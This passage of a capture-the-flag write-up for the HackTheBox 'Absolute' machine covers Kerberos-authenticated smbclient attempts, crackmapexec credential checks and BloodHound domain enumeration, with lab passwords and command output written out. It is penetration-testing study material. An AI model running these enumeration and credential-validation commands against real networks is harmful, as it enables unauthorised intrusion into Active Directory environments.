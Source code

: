 ```bash
```

##### Method 2, Smbclient
* https://unix.stackexchange.com/questions/722817/the-kerberos-option-is-deprecated-on-smbclient-but-is-the-only-option-working

I tried to make it work but gave up in the end.

```bash
faketime '2023-11-20 20:10:00' smbclient -L //absolute.htb -U 'svc_smb@absolute.htb%AbsoluteSMBService123!' --use-kerberos=required --use-krb5-ccache=svc_smb.ccache
gensec_spnego_client_negTokenInit_step: gse_krb5: creating NEG_TOKEN_INIT for cifs/absolute.htb failed (next[(null)]): NT_STATUS_INVALID_PARAMETER
session setup failed: NT_STATUS_INVALID_PARAMETER
```

### Moving on windows
I didn't do that.
* https://0xdf.gitlab.io/2023/05/27/htb-absolute.html#dynamic-analysis

### CME to Verify it
```bash
faketime '2023-11-21 00:28:00' crackmapexec smb $IP -u m.lovegod -p 'AbsoluteLDAP2022!' -k
SMB         10.129.229.59   445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.59   445    DC               [+] absolute.htb\m.lovegod:AbsoluteLDAP2022!
```

# Auth as winrm_user
### Bloodhound
```bash
faketime '2023-11-21 00:34:00' bloodhound-python -u m.lovegod -p 'AbsoluteLDAP2022!' -d absolute.htb -dc dc.absolute.htb -ns $IP

faketime '2023-11-21 19:42:00' bloodhound-python -u m.lovegod -p 'AbsoluteLDAP2022!' -k -d absolute.htb -dc dc.absolute.htb -ns $IP --zip -c All
```

`bloodhound.py -u m.lovegod -k -d absolute.htb -dc dc.absolute.htb -ns $IP --dns-tcp --zip -c All -no-pass`

`-c All` is important, always using that. `-no-pass` not working for some reasons.

If you encounter DNS issues, you can try using `dnschef` and point the nameserver option on BloodHound to your local machine.

After setup, On the top left, we search for the user `m.lovegod` and right click on the user's node, marking it as owned. We can do the same for the other users.

Looking at the Analysis tab we can see some common predefined queries that we can execute to find interesting and potentially exploitable properties and relations. In this case, however, we find valuable information by looking at the Transitive Object
Control attribute of the `m.lovegod` user node.

